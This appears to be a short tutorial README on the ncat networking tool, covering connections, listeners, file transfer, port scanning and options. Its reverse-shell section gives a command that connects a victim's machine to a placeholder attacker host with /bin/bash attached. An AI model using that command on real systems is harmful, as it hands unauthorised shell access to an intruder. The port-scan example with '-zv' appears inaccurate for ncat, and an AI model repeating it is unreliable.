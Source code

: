 # ncat
is a tool which reads and writes data across network connections, using TCP or UDP protocol.  
it is designed to be a reliable back-end tool for **sending, receiving, ** and **redirecting **data across networks. It supports both TCP and UDP protocols, SSL encryption, and IPv6.

- can be used in wide range of functions such as

> transfer files  
> port scanning  
> creating reverse shells  
> setting up proxies - intermediary servers used to route network traffic, enhancing anonymity and potentially bypassing restrictions  
> debugging network services

### syntax
- ncat -option- -ip- -port-

## 1.connecting to remort server

        ncat 192.168.56.102 9999
trying to connect to machine (192.168.56.102) on port 9999

### 2. Listen for Incoming Connections
To set up Ncat as a listener on a specific port:

    ncat -l 1234
This will make Ncat listen on port 1234. You can connect to it from another machine using:

    ncat <listener-ip> 1234
    
### 3. Transfer Files
You can use Ncat to transfer files between two machines.

On the receiving machine

    ncat -l 1234 > received_file.txt
    
- On the sending machine:
  
      ncat <receiver-ip> 1234 < file_to_send.txt
### 4. Create a Reverse Shell
Ncat can be used to create a reverse shell, which is useful for remote administration or penetration testing.

- On the attacker's machine (listener):

      ncat -l 1234
- On the victim's machine:

      ncat <attacker-ip> 1234 -e /bin/bash
This will give the attacker a shell on the victim's machine.

### 5. Port Scanning
Ncat can also be used for basic port scanning:

    ncat -zv example.com 1-100
This will scan ports 1 to 100 on example.com and report which ones are open.

## Common Options
Here are some commonly used options with Ncat:

>-l	Listen mode (wait for incoming connections).  
>-p	Specify a port number.  
>-v	Verbose output (use -vv for more verbosity).  
>-e	Execute a command (e.g., /bin/bash for a shell).  
>-w	Set a timeout for connections.  
>-u	Use UDP instead of TCP.Option	Description  
>--ssl	Use SSL encryption.  
>-k	Keep listening after a client disconnects.  

